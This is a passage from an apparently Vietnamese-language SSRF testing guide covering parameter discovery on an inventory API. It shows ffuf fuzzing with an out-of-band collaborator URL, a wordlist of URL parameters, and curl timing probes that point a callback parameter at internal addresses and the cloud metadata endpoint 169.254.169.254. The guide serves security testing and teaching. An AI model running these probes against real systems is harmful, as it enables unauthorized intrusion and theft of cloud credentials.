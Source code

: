 **Kết quả có thể thấy:**
```http
GET /api/inventory/1/M HTTP/1.1
Host: yourapp.example.com
```

---

### **PHASE 2: PARAMETER DISCOVERY (Tìm hidden parameters)**

#### **2.1. Fuzzing với wordlist**

**Dùng tool: `ffuf`, `wfuzz`, hoặc `Arjun`**

```bash
# Fuzz query parameters trên endpoint inventory
ffuf -w /path/to/params.txt -u "https://yourapp.example.com/api/inventory/1/M?FUZZ=http://collaborator.com" -mc all

# Wordlist ví dụ (params.txt):
# callback
# callback_url
# url
# webhook
# redirect
# fetch
# proxy
# target
# destination
# link
```

**Kết quả có thể:**
```bash
callback_url                [Status: 200, Size: 150]
# ↑ Tìm thấy parameter này có phản ứng khác!
```

#### **2.2. Response Time Analysis**

**Kỹ thuật:** So sánh response time để detect SSRF

```bash
# Test 1: URL không tồn tại (timeout nhanh)
time curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://192.168.1.1:9999"
# Response: ~1 second (connection refused fast)

# Test 2: URL có thật nhưng slow
time curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://httpbin.org/delay/10"
# Response: ~10 seconds (server đợi callback response!)

# Test 3: Internal IP (có service running)
time curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://169.254.169.254"
# Response: Varies (nếu có AWS metadata server)
```
